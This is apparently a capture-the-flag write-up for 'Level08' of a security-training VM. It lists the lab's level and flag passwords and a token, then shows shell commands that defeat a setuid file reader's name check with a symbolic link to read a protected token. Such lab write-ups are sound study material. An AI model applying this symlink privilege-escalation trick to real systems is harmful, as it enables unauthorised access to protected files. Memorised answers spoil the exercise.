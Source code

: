# Level08 - Flag08

## Local script usage

```shell
Usage: ./Ressources/main.sh
```

## Passwords and token

|         |                             |
| ------- | --------------------------- |
| level08 | `fiumuikeil55xe9cu4dood66h` |
| flag08  | `quif5eloekouj29ke0vouxean` |
| token   | `25749xKZ8L7DkSCwJkT9dyv6f` |

## Steps to resolve on VM

1. Connect to `level08` user and notice there is an executable and a token file owned by `flag08` user

```bash
su level08
# Enter the token

ls -l
> -rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
> -rw-------  1 flag08 flag08    26 Mar  5  2016 token
```

2. Check the files

```bash
./level08
> ./level08 [file to read]

./level08 token
> You may not access 'token'

echo "test" > /tmp/test
./level08 /tmp/test
> test

echo "test" > /tmp/token
./level08 /tmp/token
> You may not access '/tmp/token'

# We can see it doesn't let us acces any file that is named "token"

# We can't neither copy it or rename it because of access denial
cp token test
> cp: cannot open 'token' for reading: Permission denied

# Let's try symbolic link then
```

3. Exploit with symlink

```bash
ln -s ~/token /tmp/link

./level08 /tmp/link
> quif5eloekouj29ke0vouxean

su flag08
# Enter password
> Don t forget to launch getflag !

getflag
> Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```

---

## Sources

### SHELL

- [Symlink](https://kb.iu.edu/d/abbe)
